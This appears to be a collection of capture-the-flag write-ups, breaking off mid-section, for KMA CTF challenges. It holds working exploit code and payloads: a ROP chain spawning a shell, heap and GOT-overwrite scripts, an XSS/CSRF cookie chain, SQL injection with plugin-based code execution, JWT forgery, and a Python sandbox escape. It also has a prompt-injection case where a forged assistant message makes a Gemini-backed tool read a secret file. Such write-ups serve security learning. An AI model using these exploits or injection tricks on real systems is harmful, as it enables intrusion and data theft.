## Contents

- **Pwn:** Cyberchef, BabyWarmup, s3idc3rt
- **Web:** ChatGPT Made Me Do It, thousandsoflightyears, KMA Labs Developer Portal, NO AI NO LIFE, DeepSeek Made Me Do It, DeepSeek Made Me Do It Revenge
- **Forensics:** CCTV

## Pwn

### Cyberchef

#### Program behavior

The program reads up to 1,023 characters from the flag file into the global buffer `::s1`. If the flag is available, it prints the banner and supported encodings, then enters the encoding loop.

Each command has three space-separated fields:

```text
<src> <dst> <data>
```

- `src` is the current encoding, limited to 20 characters.
- `dst` is the requested output encoding, limited to 20 characters.
- `data` is the value to convert, limited to 256 characters.

For example, `plain hex hello` returns `68656c6c6f`, while `hex plain 414141` returns `AAA`.

The interesting branch is the note reader:

```c
if (!strcmp(s2, "plain") &&
    !strcmp(a2, "plain") &&
    !strncmp(s1, "note:", 5uLL)) {
    v9 = s1 + 5;
}
```

Therefore, `plain plain note:test` enters the note-reading path. The program removes the `note:` prefix, then eventually constructs the path as follows:

```c
snprintf(byte_5300, 0x400, "%s/%s", off_52F8, v9);
```

The base directory is `./data/notes`. With `v9 = "../../flag"`, the resulting path is:

```text
./data/notes/../../flag
```

Because the Docker working directory is `/app`, this resolves to `/app/flag`.

The obstacle is `note_guard`. When it is zero, the program rejects `/`, `\`, `:`, and `'`, preventing traversal. When `note_guard != 0`, execution jumps directly to path construction. The goal is therefore to overwrite `note_guard` with a non-zero value.

#### Cache corruption

The program first requires two gates:

1. Send `plain plain warmup` twice.
2. Send `a85 plain <a85("unlockme!")>`.

After those gates, an `a85 plain` command that decodes to anything other than `unlockme!` sets `fixed_stage2_family = 1`. In that state, the cache hash is not computed from the decoded plaintext:

```c
sha256_hex(hash, "a85-stage2-family", 17);
```

Consequently, different decoded values such as `kvv000000`, `kvv000001`, and `kvv000002` are forced into the same cache record.

The cache has seven output slots, but the last slot can write out of bounds. In `.data`, the records begin at `0x50c0` and each record occupies `0x38` bytes:

```text
records[0] = 0x50c0
records[1] = 0x50f8
records[2] = 0x5130
...
records[9] = 0x52b8
note_guard = 0x52f0
```

This makes the corruption exact:

```text
records[9].outputs[6] = 0x52f0 = note_guard
```



#### Exploit

The final command sequence is:

```python
sl(b"plain plain warmup")
wait()
sl(b"plain plain warmup")
wait()

# Unlock stage 2.
sl(b"a85 plain " + a85(b"unlockme!"))
wait()

# Advance the cache index to the final record.
sl(b"plain plain 00")
wait()
sl(b"plain plain 01")
wait()
sl(b"plain plain 02")
wait()
sl(b"plain plain 03")
wait()
sl(b"plain plain 04")
wait()

# Every value is assigned to the same fixed stage-2 cache family.
sl(b"a85 plain " + a85(b"kvv000000"))
wait()
sl(b"a85 plain " + a85(b"kvv000001"))
wait()
sl(b"a85 plain " + a85(b"kvv000002"))
wait()
sl(b"a85 plain " + a85(b"kvv000003"))
wait()
sl(b"a85 plain " + a85(b"kvv000004"))
wait()
sl(b"a85 plain " + a85(b"kvv000005"))
wait()

# note_guard is now non-zero, so traversal is no longer checked.
sl(b"plain plain note:../../flag")
wait(show=True)
```

The final cache insertion overwrites `note_guard`, and the traversal command reads the flag.



### BabyWarmup

#### MessagePack parser

MessagePack is a binary serialization format comparable to JSON, but generally smaller and faster. The program reads up to `0x1000` bytes, calls the MessagePack unpacker, and only afterward checks whether the packet is larger than `0x80` bytes. A packet that exceeds the limit has therefore already been parsed before the program prints `too large` and returns to the loop.

The dispatcher supports two commands:

- `cmd == set` stores a key-value pair in a global table.
- `cmd == get` scans the current map for a `val` field, copies its value into a stack buffer, and prints it.

A normal packet is:

```python
msgpack.packb({"cmd": "get", "val": "AAAA"}, use_bin_type=True)
```

The relevant unpacked structures are:

```c
typedef struct {
    void *zone;
    mp_object data;
} mp_unpacked;

struct mp_object {
    uint32_t type;
    uint32_t _pad;
    mp_via via;
};

typedef union {
    mp_raw raw;
    mp_map map;
} mp_via;

typedef struct {
    uint64_t size;
    const char *ptr;
} mp_raw;

typedef struct {
    uint64_t size;
    mp_kv *ptr;
} mp_map;
```

#### Two bugs in `handle_get`

The map iteration uses an inclusive upper bound:

```c
for (uint32_t i = 0; i <= count; i++)
```

For a map with three entries, the function inspects `pairs[3]`, which is a fourth, out-of-bounds pair. The candidate key must be a three-byte string equal to `val`, and the corresponding value must be a string or binary blob.

The second bug is an unchecked copy into `out[0x80]`. The value length is attacker-controlled, so any accepted `val` longer than `0x80` bytes overflows the stack.

Sending a direct `"val": b"A" * 0x300` does not work because the serialized packet is too large. The layout confusion is triggered with an array inside the root map:

```python
{
    "cmd": "get",
    "x": ["val", b"A" * 0x300],
}
```

The root key `x` is ordinary, but its array value contains two consecutive MessagePack objects. Through the out-of-bounds map access, those objects are reinterpreted as the extra pair:

```text
"val": b"A" * 0x300
```

This reaches the unchecked `memcpy` and overflows `out`.



#### ROP chain

The overflow layout is:

```text
out[0x80]        = "A" * 0x80
pairs            = fake pairs address
junk             = 4 bytes
i                = value that exits the loop
saved rbp        = fake RBP
saved rip onward = ROP chain
```

Because the address of `/bin/sh` is not initially available, the chain first writes both `/bin/sh` and its `argv` array to `PATH_BUF`, a known writable address, then invokes `execve`:

```python
binsh = PATH_BUF
argv = PATH_BUF + 0x10

data = b"/bin/sh\x00"
data = data.ljust(0x10, b"\x00")
data += p64(binsh)
data += p64(0)

rop = b""
rop += rop_syscall(0, 0, PATH_BUF, len(data))
rop += rop_syscall(59, binsh, argv, 0)
```

The overwritten frame is built as follows:

```python
payload = b""
payload += b"A" * 0x80
payload += flat(
    fake_pairs_address,
    b"AAAA",
    p32(loop_exit_index),
    fake_rbp(),
)
payload += rop
payload += b"A" * 8
```

After the trigger packet, the exploit sends the staged `/bin/sh` data required by the first `read` syscall. The second syscall returns a shell.



### s3idc3rt

#### Wrapper and allocator configuration

The wrapper initializes `name[0x100]` and `value[0x1000]`, accepts up to `0xf8` bytes for the name and `0x200` bytes for the value, and exits if the name contains `LD` or `MALLOC`. It then executes:

```c
setenv(name, value, 1);
```

I set the following environment variable:

```text
GLIBC_TUNABLES=glibc.malloc.perturb=1:glibc.malloc.tcache_count=0
```

This disables tcache, ensuring that freed chunks follow the non-tcache allocator paths needed by the exploit.

The main objects are:

```c
typedef struct Item {
    char description[0x100];
    char *name;
    float price;
    int quantity;
} Item;

typedef struct Cart {
    Item items[100];
    int count;
} Cart;
```

`remove_item` frees the selected name but neither decrements `cart->count` nor shifts the item array. This leaves stale entries available for leaks and writes.

The more important bug is in description editing. Descriptions are not guaranteed to be null-terminated, yet the program calculates the next read length with `strlen(description)`:

```c
read(0, item->description, strlen(item->description));
```

`strlen` can continue beyond `description[0x100]` into the adjacent `name` pointer. The subsequent `read` can therefore overwrite that pointer.

Once `item->name` is attacker-controlled:

- A `%s` print of `item->name` becomes an arbitrary read.
- `editItemName`, which calls `read(0, item->name, 0xff)`, becomes an arbitrary write.

#### Heap and libc leaks

Creating three items with non-null-terminated descriptions and viewing the cart leaks adjacent name pointers, which reveals the heap and the cart base.

The arbitrary-write helpers are:

```python
def change_desc(idx, data):
    menu(8)
    p.sendlineafter(
        b"Enter the number of the item to change description: ",
        str(idx).encode(),
    )
    p.sendafter(b"Enter description: ", data)
    return p.recvuntil(PROMPT)


def set_name_ptr(idx, ptr):
    return change_desc(idx, b"A" * 0x100 + p64(ptr)[:6])


def rename_item(idx, data):
    menu(7)
    p.sendlineafter(
        b"Enter the number of the item to rename: ",
        str(idx).encode(),
    )
    p.recvuntil(b"Enter new name for '")
    p.send(data)
    p.recvuntil(PROMPT)


def arb_write(ptr, data, idx=2):
    set_name_ptr(idx, ptr)
    rename_item(idx, data)
```

I placed a fake unsorted-bin chunk inside the large cart allocation:

```python
fake_size = 0x421
fake_user = cart + 0x3000
fake_hdr = fake_user - 0x10
next_hdr = fake_hdr + 0x420
next2_hdr = next_hdr + 0x20

arb_write(fake_hdr, p64(0) + p64(fake_size))
arb_write(next_hdr, p64(0x420) + p64(0x21))
arb_write(next2_hdr, p64(0x20) + p64(0x21))
arb_write(fake_user, b"\x00")
arb_write(cart + 256, p64(fake_user))
remove_item(1)
```

The fake chunk has size `0x421`, followed by two small valid-looking chunks with `(prev_size, size)` values `(0x420, 0x21)` and `(0x20, 0x21)`. Overwriting the first item's name pointer at `cart + 256` makes `remove_item(1)` free `fake_user`. The resulting unsorted-bin metadata provides a libc leak.

The corresponding arbitrary read changes the same name pointer and lets the rename prompt print data at the target address:

```python
def arb_read_qword(ptr, idx=2):
    menu(8)
    slan(b"Enter the number of the item to change description: ", idx)
    sa(b"Enter description: ", b"A" * 0x100 + p64(ptr)[:6])
    p.recvuntil(PROMPT)

    menu(7)
    slan(b"Enter the number of the item to rename: ", idx)
    p.recvuntil(b"Enter new name for '")
    data = p.recvuntil(b"': ", drop=True)
    p.sendline(b"done")
    p.recvuntil(PROMPT)
    return u64(data[:8].ljust(8, b"\x00"))
```

With libc known, `environ` yields a stack pointer, and a nearby saved return address yields the PIE base:

```python
environ = libc.address + 0x20AD58
leak_stack = arb_read_qword(environ)

stack_containing_pie = leak_stack - 0x110
pie_leak = arb_read_qword(stack_containing_pie)
exe.address = pie_leak - 0x1403
```

#### GOT overwrite

The last stage writes a command such as `cat flag.txt` into the cart, then replaces `strlen@GOT` with `system`:

```python
arb_write(cart, cmd.ljust(0x100, b"\x00"))

target = exe.got["strlen"]
system_addr = libc.sym["system"]
arb_write(target, p64(system_addr))
```

Triggering description editing changes this call:

```c
strlen(item->description)
```

into:

```c
system(item->description)
```

The remote exploit returned:

```text
KCSC{7736f8c98a26ea87b2c48f845b52224a}
```



## Web

### ChatGPT Made Me Do It

#### Vulnerability chain

This challenge combines an admin bot, XSS, CSRF logic, and session handling. A normal user can register, log in, change a password, and report a URL. The bot logs in with the real admin account and visits the submitted URL. The flag endpoint only responds when `req.session.username === "admin"` and the request method is `POST`.

The CSRF middleware compares a header directly with a cookie:

```javascript
const csrfToken = req.cookies.csrf_token;
if (req.headers["x-csrf-token"] !== csrfToken) {
  return res.send(alertBack("request blocked"));
}
```

The admin password, session secret, and base URL are randomized, so password brute force is not viable.

On login, the server creates a random `csrf_token` cookie with `HttpOnly`. JavaScript cannot read that cookie, but it can create another cookie with the same name. The password route uses `router.all`, and an omitted new password becomes an empty string. An authenticated `GET` request can therefore reset the current account's password to empty.

The XSS sink is `/immortal-gate/check?name=...`. Its sanitizer removes only the first matching special sequence, so the following prefix bypasses it:

```html
<!----><script>...</script>
```

The exploit is a three-part chain:

1. Report a URL containing XSS to the admin bot.
2. Use a path-specific shadow cookie to satisfy the CSRF comparison.
3. Make the bot reset the admin password to an empty string.

The JavaScript payload is:

```javascript
document.cookie = "csrf_token=x; path=/cultivation";
fetch("/cultivation/password", {
  credentials: "include",
  headers: { "x-csrf-token": "x" },
});
```

The real CSRF cookie has `Path=/`, while the attacker cookie has the more specific `Path=/cultivation`. For a request to `/cultivation/password`, both cookies match, but the browser sends the more specific cookie first:

```text
Cookie: csrf_token=x; connect.sid=<admin-session>; csrf_token=<real-admin-token>
```

The complete reported URL is:

```text
http://localhost:3000/immortal-gate/check?name=<!----><script>document.cookie='csrf_token=x; path=/cultivation';fetch('/cultivation/password',{credentials:'include',headers:{'x-csrf-token':'x'}})</script>
```



After the bot visits the URL, the admin password is empty. Logging in as `admin` with an empty password and sending `POST /immortal-gate/treasure` returns the flag.



The original instance was no longer fetchable after the solve, so these notes preserve the locally verified exploit chain.

### thousandsoflightyears

#### Service topology

This challenge is a chain across four services:

- `mikasa` is the only application reachable through public nginx.
- `web` is an internal Snake game.
- `bot` is an internal admin bot that visits `web` with `FLAG1` in a cookie.
- `eren-app` is an internal Oracle-backed API containing `FLAG2`.

The network relationships are:

```text
Internet -> nginx -> mikasa
                    |-> bot -> web
                    |-> eren-app
```



The full path is:

```text
Mikasa search SQLi
+ Mikasa upload traversal
-> MariaDB plugin RCE
-> internal bot + WASM-overlap XSS -> FLAG1
-> internal Eren ORDER BY SQLi -> FLAG2
```

#### Mikasa SQL injection and upload traversal

The search controller builds SQL by concatenation:

```java
String query = "SELECT * FROM user WHERE username = '" + username + "'";
```

The blacklist blocks terms such as `union`, `drop`, `delete`, `exec`, and `file`, but does not block `insert`, `install`, or `soname`. The endpoint also accepts stacked statements.

The upload form sends two attacker-controlled fields, `filename` and base64-encoded file contents. Before normalization, the WAF rejects `..`, `/`, `\`, `%2e`, `%2f`, and `%5c`. The filename normalizer then converts the string to ISO-8859-1 bytes and clears the high bit of every byte with `& 0x7f`:

```text
0xAE & 0x7F = 0x2E = .
0xAF & 0x7F = 0x2F = /
```

The original input therefore contains neither a literal dot nor slash, but becomes a traversal path after validation. The server then evaluates:

```java
base.resolve(prefix + "_" + transformed).normalize()
```

A transformed value such as:

```text
/../../../../home/ctf/lib/plugins/poc.so
```

normalizes outside the upload directory and writes the shared object to:

```text
/home/ctf/lib/plugins/poc.so
```

MariaDB is configured with that directory as `plugin_dir`, and the application database user has `INSERT` and `DELETE` privileges on `mysql.plugin`:

```sql
GRANT INSERT, DELETE ON mysql.plugin TO 'user'@'localhost';
GRANT INSERT, DELETE ON mysql.plugin TO 'user'@'127.0.0.1';
```

The stacked SQL injection can now force MariaDB to load the uploaded library:

```sql
INSTALL SONAME 'poc.so';
```

`dlopen()` runs the shared object's constructor, producing code execution inside `mikasa`.

#### WASM overlap to XSS and FLAG1

The internal web service stores `gameInfo` at linear-memory address `0x5000`. Go's `wasm_exec.js` starts writing `argv` at `0x1000`. The first argument, `game.wasm\0`, occupies ten bytes and is aligned to eight bytes, so the first byte of `userComment` begins at `0x1010`.

The distance to the cached content is:

```text
0x5000 - 0x1010 = 0x3ff0 = 16368 bytes
```

A comment with exactly 16,368 padding bytes overwrites the content later rendered through:

```javascript
postContent.innerHTML = post.post_content;
```



The comment is:

```python
COMMENT = "A" * 16368 + ''
```

The bot can resolve `mikasa` on their shared network. Code running through the MariaDB plugin starts a listener on `mikasa:18080`, asks either `http://bot:8000/visit` or `http://internalbot:8000/visit` to process the comment, and receives `document.cookie` in the `c` query parameter.

The callback value is stored in Mikasa's database under a known username, for example `bot_flag_remote1`, then read externally through the public `/search` endpoint. This transfers `FLAG1` from the internal browser to the public service.

#### Eren ORDER BY oracle and FLAG2

`eren-app` takes the `field` query parameter and places it into `ORDER BY` without a column whitelist. In the local initialization data, `FLAG_FACTION.FACTION_ID = 15` contains `FLAG2`.

The injected expression is:

```sql
PIPE_ID"+(CASE WHEN <condition> THEN -2*PIPE_ID ELSE 0 END)+0*"PIPE_ID
```

With descending sorting:

- A false condition keeps the sort value as `PIPE_ID`, making `pipeId = 5` appear first.
- A true condition changes it to `-PIPE_ID`, making `pipeId = 1` appear first.

This turns the result order into a Boolean oracle. The extractor asks whether the secret begins with each candidate prefix:

```python
def is_prefix(candidate):
    escaped = like_escape(candidate)
    condition = (
        "(SELECT/**/SECRET/**/FROM/**/FLAG_FACTION/**/WHERE/**/FACTION_ID=15)"
        "/**/LIKE/**/'" + escaped + "%'/**/ESCAPE/**/'!'"
    )
    field = (
        'PIPE_ID"+(CASE/**/WHEN/**/'
        + condition
        + '/**/THEN/**/-2*PIPE_ID/**/ELSE/**/0/**/END)+0*"PIPE_ID'
    )
    query = urllib.parse.urlencode({"field": field, "limit": "10"})
    url = "http://eren-app:3000/api/faction/scan?" + query

    with urllib.request.urlopen(url, timeout=6) as response:
        data = json.loads(response.read().decode("utf-8", "replace"))

    leaks = data["factionLeaks"]["leaks"]
    first = leaks[0].get("pipeId", leaks[0].get("PIPE_ID"))
    return int(first) == 1
```

Starting from `KMACTF{`, the script tries characters from `ABCDEFGHIJKLMNOPQRSTUVWXYZ0123456789_}` until it reaches `}`. As with `FLAG1`, it writes each recovered prefix into Mikasa's database so the progress can be read through `/search`.



Finally, `FLAG1` and `FLAG2` are concatenated to obtain the complete challenge flag.

### KMA Labs Developer Portal

#### Inline JWK injection

The blind challenge exposes a login page with the credentials `guest / guest123`. After login, the server sets a JWT cookie containing `role: "user"`. Access to `/admin` requires an admin role.

The RS256 verifier trusts a public key supplied directly in the token's `jwk` header. I generated a new 2,048-bit RSA key pair, embedded my public key, changed the payload role to `admin`, and signed the token with my private key.

The original `kid`, `kma-idp-rsa-01`, must be removed or replaced. If it remains, the server selects its legitimate key instead of the attacker-controlled JWK.

Example header:

```json
{
  "alg": "RS256",
  "typ": "JWT",
  "jwk": {
    "kty": "RSA",
    "n": "<modulus from the generated public key>",
    "e": "AQAB",
    "alg": "RS256",
    "use": "sig"
  }
}
```

Example payload:

```json
{
  "sub": "guest",
  "role": "admin",
  "iss": "kma-ctf-auth",
  "iat": 1779806120,
  "exp": 1779813320
}
```

After signing in Burp's JWT Editor and replacing the cookie, `/api/me` confirms `"role":"admin"` and the sandbox becomes accessible.

#### Python sandbox escape

The sandbox blocks:

- Single and double quotes, preventing ordinary string literals.
- Digits `0-9`, preventing ordinary numeric literals.
- Keywords such as `import`, `eval`, `exec`, `open`, and `compile`.
- Normal builtins by setting `__builtins__ = {}`.

However, `True` and `False` remain available, and Python introspection is not blocked:

```text
True + True     -> 2
().__class__    -> <class 'tuple'>
```

The escape walks the object graph:

```text
() -> __class__ -> __base__ -> __subclasses__()
   -> warnings.catch_warnings
   -> __init__.__globals__
   -> real builtins
```

Integers are generated from `True`, `False`, addition, and bit shifts. Strings are generated by retrieving `chr` from the real builtins and concatenating calls to it.

The essential generators are:

```python
def int_expr(number):
    if number == 0:
        return "False"

    parts = []
    bit = 0
    while number:
        if number & 1:
            if bit == 0:
                parts.append("True")
            elif bit == 1:
                parts.append("(True<<True)")
            else:
                parts.append("(True<<(" + "+".join(["True"] * bit) + "))")
        number >>= 1
        bit += 1
    return "(" + "+".join(parts) + ")"


def str_expr(text, chr_var="c"):
    return "+".join(f"{chr_var}({int_expr(ord(char))})" for char in text)


def idx(number):
    return f"[{int_expr(number)}]"


def builtins_values_expr():
    globals_values = (
        "().__class__.__base__.__subclasses__()"
        f"{idx(204)}.__init__.__globals__.values()"
    )
    builtins_dict = f"[*{globals_values}]{idx(7)}"
    return f"[*{builtins_dict}.values()]"
```

The subclass and builtins indexes were measured on the remote Python 3.11 runtime. From the recovered builtins, index `6` is used for `__import__`, index `14` for `chr`, and index `150` for `open`.

Reading `/app/app.py` reveals that startup writes the flag to a randomized path and then removes it from the environment:

```python
_fc = os.environ.get("FLAG", "KMACTF{fake_flag}")
_fd = os.environ.get("FLAG_DIR", "/tmp")
_fn = f"secret-{uuid.uuid4().hex}.txt"
_fp = os.path.join(_fd, _fn)
with open(_fp, "w") as _fh:
    _fh.write(_fc + "\n")
os.environ.pop("FLAG", None)
del _fc
```

The final generated expression imports `os` and runs:

```text
os.listdir("/tmp")
os.popen("cat /tmp/secret-*").read()
```

This reads the randomized `/tmp/secret-<uuid>.txt` file and returns the flag.

### NO AI NO LIFE

#### Four-bug chain

The application is an OpenAI-style API bridge to Gemini with a Deno MCP server. The flag is stored in a text file with a randomized name similar to `/app/flag_<32 random characters>.txt`.

The solve combines four behaviors:

1. **Client-controlled assistant role.** The bridge accepts the supplied role without restricting clients to `user`:

   ```typescript
   const role = typeof obj.role === "string" ? obj.role : "user";
   ```

   During Gemini conversion, `assistant` becomes `model`:

   ```typescript
   contents.push({
     role: msg.role === "assistant" ? "model" : "user",
     parts: [{ text }],
   });
   ```

   An attacker can therefore pre-seed a model message that claims it has already decided to call a tool.

2. **Prompt-only restrictions.** The system prompt forbids flags, wildcards, and non-image files, but `checkGuardrails` only rejects patterns such as `/etc/`, `/proc/`, `/tmp/`, `/root/`, `.env`, `secret`, and `credential`. It does not reject `flag` or `?`.

3. **The OCR tool reads text.** Despite its name, `ocr_image_file` returns a decoded file directly when `isTextFile(filePath)` succeeds:

   ```typescript
   if (isTextFile(filePath)) {
     const text = new TextDecoder().decode(bytes);
     return { content: [{ type: "text", text }] };
   }
   ```

4. **Question-mark globbing.** `resolveGlobPath` treats `?` as a single-character wildcard and scans the directory for a match.

The randomized name is matched with:

```text
/app/????_????????????????????????????????.???
```

The exploit uses two messages. The first is attacker-supplied with role `assistant` and pre-seeds the tool-call plan and wildcard path. The second has role `user` and instructs the model to execute the plan without asking another question. Gemini calls `ocr_image_file`, the MCP server resolves the wildcard, recognizes the target as text, and returns its contents.

The flag is:

```text
KMACTF{MCP_lf1_v1a_t0_r34d_4rb1tr4ry_f1L3s}
```

The original verification script supported Cloudflare cookies from Firefox:

```bash
python3 solve.py https://kma-bank-this-is-not-ctf.mitm.vn \
  --transport cloudscraper \
  --use-firefox-co
```

At the time these notes were written, the instance was inaccessible because of a Cloudflare issue, so the automated verification could not be rerun.

### DeepSeek Made Me Do It

#### Temporary-file race

The PHP application exposes:

